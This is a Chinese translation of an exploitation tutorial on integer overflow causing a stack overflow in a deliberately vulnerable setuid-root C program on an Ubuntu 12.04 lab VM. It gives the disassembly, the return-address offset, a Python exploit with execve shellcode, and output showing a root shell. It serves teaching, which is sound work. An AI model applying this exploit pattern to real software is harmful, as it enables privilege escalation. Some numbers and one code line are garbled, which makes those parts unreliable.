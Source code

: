 # 整数溢出

> 译者：[hackyzh](http://bbs.pediy.com/user-694899.htm)

> 原文：[Integer Overflow](https://sploitfun.wordpress.com/2015/06/23/integer-overflow/)

虚拟机安装：Ubuntu 12.04（x86）

**什么是整数溢出？**

存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，这可能导致任意代码执行。在这篇文章中，我将仅谈论整数溢出导致堆栈溢出，整数溢出导致堆溢出将在后面的单独的帖子中讨论。

数据类型大小及范围：

没图

当我们试图存储一个大于最大支持值的值时，我们的值会被包装 。例如，当我们尝试将`2147483648`存储到带符号的`int`数据类型时，它将被包装并存储为`-21471483648`。这被称为整数溢出，这种溢出可能导致任意代码执行

**整数下溢**

类似地，存储小于最小支持值的值称为整数下溢。例如，当我们尝试将`-2147483649`存储到带符号的int数据类型时，它将被包装并存储为`21471483647`.这称为整数下溢。在这里我只会谈论整数溢出，但是这个过程对于下溢也是一样的！

漏洞代码：

```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```
编译命令

```
#echo 0 > /proc/sys/kernel/randomize_va_space
$gcc -g -fno-stack-protector -z execstack -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

上述漏洞代码的`[1]`行显示了一个整数溢出错误。`strlen`的返回类型是`size_t`（`unsigned int`），它存储在`unsigned char`数据类型中。因此，任何大于`unsigned char`的最大支持值的值都会导致整数溢出。因此当密码长度为261时，261将被包裹并存储为`passwd_len`变量中的5！由于这个整数溢出，可以绕过行`[2]`执行的边界检查，从而导致基于堆栈的缓冲区溢出！而且在这篇文章中看到，基于堆栈的缓冲区溢出导致任意的代码执行。

在研究漏洞代码之前，为了更好的理解，我们可以反汇编并绘制出漏洞代码的堆栈布局！

反汇编：

```asm
(gdb) disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
 //Function Prologue
 0x0804849e <+0>: push %ebp                               //backup caller's ebp
 0x0804849f <+1>: mov %esp,%ebp                           //set callee's ebp to esp

 0x080484a1 <+3>: push %edi                               //backup edi
 0x080484a2 <+4>: sub $0x34,%esp                          //stack space for local variables
 0x080484a5 <+7>: mov 0x8(%ebp),%eax                      //eax = passwd
 0x080484a8 <+10>: movl $0xffffffff,-0x1c(%ebp)           //String Length Calculation -- Begins here
 0x080484af <+17>: mov %eax,%edx
 0x080484b1 <+19>: mov $0x0,%eax
 0x080484b6 <+24>: mov -0x1c(%ebp),%ecx
 0x080484b9 <+27>: mov %edx,%edi
 0x080484bb <+29>: repnz scas %es:(%edi),%al
 0x080484bd <+31>: mov %ecx,%eax
 0x080484bf <+33>: not %eax
 0x080484c1 <+35>: sub $0x1,%eax                          //String Length Calculation -- Ends here
 0x080484c4 <+38>: mov %al,-0x9(%ebp)                     //passwd_len = al
 0x080484c7 <+41>: cmpb $0x3,-0x9(%ebp)                   //if(passwd_len <= 4 )
 0x080484cb <+45>: jbe 0x8048500 <validate_passwd+98>     //jmp to 0x8048500
 0x080484cd <+47>: cmpb $0x8,-0x9(%ebp)                   //if(passwd_len >=8)
 0x080484d1 <+51>: ja 0x8048500 <validate_passwd+98>      //jmp to 0x8048500
 0x080484d3 <+53>: movl $0x8048660,(%esp)                 //else arg = format string "Valid Password"
 0x080484da <+60>: call 0x80483a0 <puts@plt>              //call puts
 0x080484df <+65>: mov 0x804a020,%eax                     //eax = stdout 
 0x080484e4 <+70>: mov %eax,(%esp)                        //arg = stdout
 0x080484e7 <+73>: call 0x8048380 <fflush@plt>            //call fflush
 0x080484ec <+78>: mov 0x8(%ebp),%eax                     //eax = passwd
 0x080484ef <+81>: mov %eax,0x4(%esp)                     //arg2 = passwd
 0x080484f3 <+85>: lea -0x14(%ebp),%eax                   //eax = passwd_buf
 0x080484f6 <+88>: mov %eax,(%esp)                        //arg1 = passwd_buf
 0x080484f9 <+91>: call 0x8048390 <strcpy@plt>            //call strcpy
 0x080484fe <+96>: jmp 0x8048519 <validate_passwd+123>    //jmp to 0x8048519
 0x08048500 <+98>: movl $0x804866f,(%esp)                 //arg = format string "Invalid Password"
 0x08048507 <+105>: call 0x80483a0 <puts@plt>             //call puts
 0x0804850c <+110>: mov 0x804a020,%eax                    //eax = stdout
 0x08048511 <+115>: mov %eax,(%esp)                       //arg = stdout
 0x08048514 <+118>: call 0x8048380 <fflush@plt>           //fflush
 0x08048519 <+123>: lea -0x14(%ebp),%eax                  //eax = passwd_buf
 0x0804851c <+126>: mov %eax,(%esp)                       //arg = passwd_buf
 0x0804851f <+129>: call 0x8048494                        //call store_passwd_indb

 //Function Epilogue
 0x08048524 <+134>: add $0x34,%esp                        //unwind stack space
 0x08048527 <+137>: pop %edi                              //restore edi
 0x08048528 <+138>: pop %ebp                              //restore ebp
 0x08048529 <+139>: ret                                   //return
End of assembler dump.
(gdb)
```

堆栈布局：图片失效

由于我们已经知道长度为261的密码，所以绕过边界检查，并允许我们覆盖堆栈中的返回地址。让我们通过发送一系列的`A`来测试它。

测试步骤1：是否可以覆盖返回地址？

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*261'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*261'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) p/x $eip
$1 = 0x41414141
(gdb)
```

测试步骤2：目的缓冲区的偏移量是多少？

这里让我们从缓冲区`passwd_buf`中找出什么偏移返回地址。反汇编并绘制了`validate_passwd`的堆栈布局，现在可以尝试找到偏移位置信息！堆栈布局显示返回地址位于缓冲区`passwd_buf`的偏移（`0x18`）处。`0x18`计算如下：

```
0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4
```

其中

```
0xb is ‘passwd_buf’ size
0x1 is ‘passwd_len’ size
0x4 is alignment space
0x4 is edi
0x4 is caller’s EBP
```

因此，用户输入的`"A" * 24 + "B" * 4 + "C" * 233`，以`A`覆盖`passwd_buf`，`passwd_len`，对齐空间，edi和调用者的ebp，以`BBBB`覆盖返回地址，以`C`覆盖剩余空间.

```
$ gdb -q vuln
Reading symbols from /home/sploitfun/lsploits/iof/vuln...(no debugging symbols found)...done.
(gdb) r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Starting program: /home/sploitfun/lsploits/iof/vuln sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
Valid Password

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb) p/x $eip
$1 = 0x42424242
(gdb)
```

以上输出显示攻击者可以控制返回地址。位于堆栈位置（`0xbffff1fc`）的返回地址被`BBBB`覆盖。有了这些信息，我们可以编写一个漏洞利用程序来实现任意的代码执行。

利用代码：

```py
#exp.py 
#!/usr/bin/env python
import struct
from subprocess import call

arg1 = "sploitfun"

#Stack address where shellcode is copied.
ret_addr = 0xbffff274

#Spawn a shell
#execve(/bin/sh)
scode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

#endianess convertion
def conv(num):
 return struct.pack("<I",numunk + RA + NOP's + Shellcode
arg2 = "A" * 24
arg2 += conv(ret_addr);
arg2 += "\x90" * 100
arg2 += scode
arg2 += "C" * 108

print "Calling vulnerable program"
call(["./vuln", arg1, arg2])
```

执行上面的exploit程序，给我们root shell（如下所示）：

```
$ python exp.py 
Calling vulnerable program
Valid Password
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

参考

<http://phrack.org/issues/60/10.html>
